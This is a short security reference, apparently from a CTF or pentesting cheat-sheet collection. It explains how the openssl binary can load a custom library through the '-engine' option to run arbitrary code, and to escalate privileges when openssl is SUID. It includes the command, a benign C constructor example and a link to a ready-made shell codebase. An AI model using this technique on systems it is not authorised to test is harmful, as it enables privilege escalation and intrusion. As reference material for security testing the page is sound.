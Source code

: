 ```yaml
---
title: openssl
description: A reference on features of the openssl binary, relevant for security testing, exploiting and CTF.
---
```


## Code execution/Privilege escalation

The binary `openssl` can be made to load custom libraries via `req -engine /library.so`. This can result in arbitrary
code execution. If `openssl` has SUID set, this can also lead to privilege escalation.

```bash
openssl req -engine /path/to/custom/library.so
```

The easiest way to write a library in such a way that its code is executed by `openssl` is to add a library constructor
`__attribute__((constructor))`.

```c
void __attribute__ ((constructor)) constructor() {
    printf("I will be executed on library load!");
}
```

A ready-made codebase for getting code execution is available [here](https://github.com/jonasheschl/lib2shell-ssh-keygen).
This codebase also preserves the effective user id. Useful if `openssl` is run with SUID for example.

## References

1. [openssl man page](https://linux.die.net/man/1/openssl)
2. [Blog post by Sean Pesce](https://seanpesce.blogspot.com/2023/03/leveraging-ssh-keygen-for-arbitrary.html)
3. [Modified lib2shell codebase for exploiting the ssh-keygen behaviour](https://github.com/jonasheschl/lib2shell-ssh-keygen)
